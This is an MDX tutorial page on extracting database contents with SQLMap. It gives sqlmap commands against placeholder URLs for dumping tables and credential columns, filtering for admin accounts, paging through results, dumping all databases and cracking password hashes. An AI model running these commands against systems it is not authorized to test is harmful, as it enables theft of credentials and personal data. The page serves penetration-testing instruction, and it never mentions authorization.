 ```yaml
---
title: Data Extraction Techniques
description: Learn how to extract data from databases using SQLMap
---
```



<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="strategy">Strategy</TabsTrigger>
    <TabsTrigger value="best-practices">Best Practices</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    After identifying the database structure, you can extract data from specific tables and columns of interest. SQLMap provides powerful capabilities to retrieve, filter, and process database content efficiently.
  </TabsContent>
  <TabsContent value="strategy">
    An effective data extraction strategy should:
    
    1. **Target specific data** - Focus on relevant tables and columns
    2. **Use filtering** - Apply conditions to limit data retrieval
    3. **Handle pagination** - Extract large datasets in manageable chunks
    4. **Process sensitive data** - Identify and handle password hashes and PII
    5. **Document findings** - Save extracted data in structured formats
  </TabsContent>
  <TabsContent value="best-practices">
    <ul>
      <li>Always specify columns of interest rather than dumping entire tables</li>
      <li>Use conditional extraction to minimize data volume</li>
      <li>Set reasonable limits when extracting from large tables</li>
      <li>Save output to files for later analysis</li>
      <li>Use threading carefully to balance speed and server load</li>
      <li>Consider using CSV output for easier post-processing</li>
    </ul>
  </TabsContent>
</Tabs>

## Data Extraction Techniques

<Stepper>
  <StepperItem title="Basic Table Extraction">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Complete Table Dump</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name --dump
        ```
        
        <p className="text-sm mt-2">This command retrieves all records from the specified table. For large tables, SQLMap will ask if you want to retrieve all entries or a subset.</p>
      </div>
      <div>
        <h4>When to Use</h4>
        <ul>
          <li>Small to medium-sized tables</li>
          <li>When you need all data from a table</li>
          <li>Initial exploration of table contents</li>
          <li>When combined with output formatting options</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Column-Specific Extraction">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Targeting Specific Columns</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name \
          -C "username,password,email" --dump
        ```
        
        <p className="text-sm mt-2">This extracts only the specified columns, reducing the amount of data retrieved.</p>
      </div>
      <div>
        <h4>Benefits</h4>
        <ul>
          <li>Reduces data transfer volume</li>
          <li>Focuses on relevant information</li>
          <li>Improves extraction speed</li>
          <li>Minimizes impact on target server</li>
          <li>Easier to analyze specific data points</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Conditional Extraction">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Filtering with WHERE Conditions</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T users \
          -C "username,password" --dump \
          --where "username='admin'"
        ```
        
        <p className="text-sm mt-2">This filters data based on specific conditions, similar to a SQL WHERE clause.</p>
      </div>
      <div>
        <h4>Example Conditions</h4>
        <ul>
          <li><code>--where "id>100"</code> - Records with ID greater than 100</li>
          <li><code>--where "role='admin'"</code> - Only admin users</li>
          <li><code>--where "created_date>'2023-01-01'"</code> - Recent records</li>
          <li><code>--where "active=1"</code> - Only active records</li>
          <li><code>--where "email LIKE '%@company.com'"</code> - Company emails</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Pagination Techniques">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Extracting Record Ranges</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T users --dump \
          --start 1 --stop 100
        ```
        
        <p className="text-sm mt-2">This retrieves only records 1 through 100, useful for paginating through large datasets.</p>
      </div>
      <div>
        <h4>Pagination Strategy</h4>
        <ul>
          <li>Use <code>--count</code> first to determine table size</li>
          <li>Extract data in manageable chunks (100-500 records)</li>
          <li>Use sequential ranges: 1-100, 101-200, etc.</li>
          <li>Combine with <code>--where</code> for targeted pagination</li>
          <li>Use <code>--output-dir</code> to save each chunk separately</li>
        </ul>
      </div>
    </div>
  </StepperItem>
</Stepper>

## Advanced Extraction Features

<Tabs defaultValue="bulk-extraction" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="bulk-extraction">Bulk Extraction</TabsTrigger>
    <TabsTrigger value="password-cracking">Password Cracking</TabsTrigger>
    <TabsTrigger value="optimization">Optimization</TabsTrigger>
  </TabsList>
  
  <TabsContent value="bulk-extraction">
    <div className="border-l-4 border-yellow-500 pl-4 py-2 bg-yellow-50 dark:bg-yellow-900/20 mb-4">
      <h4 className="font-bold">Warning: High Impact Operation</h4>
      <p>Dumping all databases can generate massive amounts of data and take a very long time to complete. Use with caution and only when necessary.</p>
    </div>
    
    <h4>Extracting All Databases</h4>
    
    ```bash
    sqlmap -u "http://www.example.com/vuln.php?id=1" --dump-all
    ```
    
    <p className="mt-2">This command extracts data from all tables in all accessible databases. To make this more manageable:</p>
    
    <ul className="mt-2">
      <li>Use <code>--exclude-sysdbs</code> to skip system databases</li>
      <li>Use <code>--dump-all --exclude-dbs=db1,db2</code> to exclude specific databases</li>
      <li>Use <code>--dump-format=CSV</code> for more efficient output</li>
      <li>Consider <code>--fresh-queries</code> to avoid caching issues with large extractions</li>
    </ul>
  </TabsContent>
  
  <TabsContent value="password-cracking">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Automatic Password Cracking</h4>
        
        ```bash
        # Basic password cracking
        sqlmap -u "http://www.example.com/vuln.php?id=1" --passwords
        
        # With custom wordlist
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          --passwords --passwords-file=/path/to/wordlist.txt
        ```
        
        <p className="mt-2">SQLMap will:</p>
        <ol>
          <li>Identify tables that might contain password hashes</li>
          <li>Extract the hashes</li>
          <li>Attempt to crack them using dictionary attack or brute force</li>
        </ol>
      </div>
      <div>
        <h4>Supported Hash Types</h4>
        <ul>
          <li>MD5</li>
          <li>SHA1</li>
          <li>SHA256</li>
          <li>MySQL</li>
          <li>MSSQL</li>
          <li>Oracle</li>
          <li>PostgreSQL</li>
          <li>NTLM</li>
          <li>And many others</li>
        </ul>
        
        <div className="bg-muted p-3 rounded-md mt-4">
          <h5 className="font-bold">Pro Tip</h5>
          <p>Use <code>--common-tables</code> with <code>--passwords</code> to check for common password table names even if they aren't detected in the schema enumeration.</p>
        </div>
      </div>
    </div>
  </TabsContent>
  
  <TabsContent value="optimization">
    <h4>Performance Optimization Techniques</h4>
    
    <div className="grid grid-cols-1 md:grid-cols-2 gap-6 mt-4">
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Threading</h5>
        <p><code>--threads=N</code> - Use multiple threads to speed up data extraction</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap --threads=10 -u "http://target.com/vuln.php?id=1" --dump</code>
          <p className="mt-1">Start with 5-10 threads and adjust based on performance. Too many threads can overload the server.</p>
        </div>
      </div>
      
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Output Formatting</h5>
        <p><code>--dump-format=FORMAT</code> - Control output format (CSV, HTML, SQLITE)</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap -u "http://target.com/vuln.php?id=1" --dump --dump-format=CSV</code>
          <p className="mt-1">CSV format is most efficient for large datasets and easier to process later.</p>
        </div>
      </div>
      
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Binary Data Handling</h5>
        <p><code>--binary-fields</code> and <code>--hex</code> - Handle binary data efficiently</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap -u "http://target.com/vuln.php?id=1" --binary-fields="image,blob" --hex</code>
          <p className="mt-1">Specify binary fields to avoid corruption and use hex encoding for reliable extraction.</p>
        </div>
      </div>
      
      <div className="border p-4 rounded-md">
        <h5 className="font-bold">Batch Mode</h5>
        <p><code>--batch</code> - Non-interactive mode for automated extraction</p>
        <div className="text-sm mt-2">
          <strong>Example:</strong> <code>sqlmap -u "http://target.com/vuln.php?id=1" --dump --batch</code>
          <p className="mt-1">Uses default answers for all prompts, ideal for scripted operations.</p>
        </div>
      </div>
    </div>
  </TabsContent>
</Tabs>

